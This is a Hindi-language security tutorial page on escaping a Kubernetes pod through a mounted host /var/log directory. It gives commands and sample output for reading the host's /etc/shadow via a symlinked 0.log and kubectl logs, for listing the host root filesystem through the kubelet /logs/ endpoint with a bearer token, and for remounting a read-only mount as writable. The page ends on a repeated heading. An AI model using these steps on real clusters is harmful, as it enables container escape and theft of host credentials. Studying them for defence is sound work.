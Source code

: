 जैसा कि [**इस शोध में संकेतित किया गया है**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), यदि आप एक पॉड तक पहुँच सकते हैं या एक पॉड बना सकते हैं जिसमें **होस्ट का `/var/log/` निर्देशिका माउंट की गई है**, तो आप **कंटेनर से बाहर निकल सकते हैं**।\
यह मूल रूप से इस कारण है कि जब **Kube-API एक कंटेनर के लॉग प्राप्त करने की कोशिश करता है** (उदाहरण के लिए `kubectl logs <pod>` का उपयोग करते हुए), तो यह **पॉड के `0.log`** फ़ाइल को **Kubelet** सेवा के `/logs/` एंडपॉइंट का उपयोग करके अनुरोध करता है।\
Kubelet सेवा `/logs/` एंडपॉइंट को उजागर करती है जो मूल रूप से **कंटेनर के `/var/log` फ़ाइल सिस्टम को उजागर कर रही है**।

इसलिए, एक हमलावर जिसके पास **कंटेनर के /var/log/ फ़ोल्डर में लिखने की पहुँच है** वह इस व्यवहार का दुरुपयोग 2 तरीकों से कर सकता है:

* अपने कंटेनर के `0.log` फ़ाइल को संशोधित करना (जो आमतौर पर `/var/logs/pods/namespace_pod_uid/container/0.log` में स्थित होता है) ताकि यह एक **सिंबलिंक हो जो `/etc/shadow`** की ओर इशारा करता हो। फिर, आप निम्नलिखित करके होस्ट का शैडो फ़ाइल निकालने में सक्षम होंगे:
```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```
* यदि हमलावर के पास **`nodes/log` पढ़ने की अनुमति वाले किसी भी प्रिंसिपल पर नियंत्रण है**, तो वह बस `/host-mounted/var/log/sym` में `/` के लिए एक **symlink** बना सकता है और जब **`https://<gateway>:10250/logs/sym/` तक पहुँचता है, तो वह होस्ट की रूट** फ़ाइल प्रणाली को सूचीबद्ध करेगा (symlink को बदलने से फ़ाइलों तक पहुँच मिल सकती है)।
```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```
**एक प्रयोगशाला और स्वचालित शोषण पाया जा सकता है** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### readOnly सुरक्षा को बायपास करना <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

यदि आप भाग्यशाली हैं और उच्च विशेषाधिकार प्राप्त क्षमता `CAP_SYS_ADMIN` उपलब्ध है, तो आप बस फ़ोल्डर को rw के रूप में फिर से माउंट कर सकते हैं:
```bash
mount -o rw,remount /hostlogs/
```
#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>
